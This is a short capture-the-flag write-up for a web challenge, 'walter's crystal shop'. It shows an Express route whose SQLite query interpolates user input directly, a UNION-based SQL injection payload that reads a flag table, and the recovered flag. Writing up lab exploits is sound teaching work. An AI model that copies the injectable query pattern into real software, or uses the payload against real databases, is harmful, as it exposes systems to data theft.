


# walter's crystal shop
> My buddy Walter is selling some crystals, check out his shop!

## About the Challenge
We were given a website and source code (You can download the source code [here](walters_crystal_shop.zip)). There's only 1 functionality where we can search some crstal



## How to Solve?
If we look at the source code, this website was vulnerable to SQL injection (SQLite)

```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});
```

And because the flag was located in a table called `flag`. To obtain the flag we need to input this payload

```
' union select (select * from flag),2,3-- -
```



```
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```